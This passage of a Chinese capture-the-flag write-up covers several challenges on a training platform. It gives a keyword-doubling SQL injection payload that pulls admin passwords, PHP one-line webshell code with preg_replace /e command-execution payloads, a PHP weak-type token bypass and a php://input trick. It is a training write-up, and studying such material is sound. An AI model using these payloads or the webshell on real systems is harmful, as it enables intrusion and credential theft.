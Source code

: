 ```
soid=9999/**/uniunionon/**/selecselectt/**/1,userpaspasss,3,4/**/from/**/admiadminn //得到密码

这边密码得到是一串ascii码，用ascii码登录是无效的，利用在线ascii转换工具，转成字符串即可登录
至于怎么知道的，因为sm.txt里面有说明，数据库密码是自己写的加密算法，查看加密算法后，得知只是转换了ascii码
```
登录后台，页面给出一个一句话木马的地址`http://cms.nuptzj.cn/xlcteam.php`
用`about.php`读出源码，然后在利用一句话执行命令，列出目录
```
xlcteam.php
<?php $e = $_REQUEST['www']; $arr = array($_POST['wtf'] => '|.*|e',); array_walk($arr, $e, ''); ?>

利用姿势
[POST DATA]
www=preg_replace&wtf=phpinfo()
```
这个利用自己琢磨了一伙无果，google了一下，看了下大牛的wp最后的利用姿势[综合题2writeup](https://blog.spoock.com/2016/06/20/nuptzj-web2-writeup/?utm_source=tuicool&utm_medium=referral)
很高端，接下来可以直接获取当前目录的的内容
```
[POST DATA]
www=preg_replace&wtf=print_r(scandir("./"))
```
转换下编码，发现有flag文件，打开得到flag


<Br />

### 密码重置2
题目非常明显，进入页面，除了index.php外，请求提交的页面是submit.php
提示说有vi的临时文件，直接访问两个页面，发现`.submit.php.swp`有
```php
if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```
审计源码后发现,只要$token的长度等于10，并且等于0，就行，直接0000000000或者0x00000000，直接弱类型可以绕过
邮箱在index.php页面中的meta中
<Br />

### file_get_contents
进入页面空白，查看源代码，审计后发现可以利用`php://input`
绕过
```
url?file=php://input
[POSTDATA]  meizijiu
```
<Br />
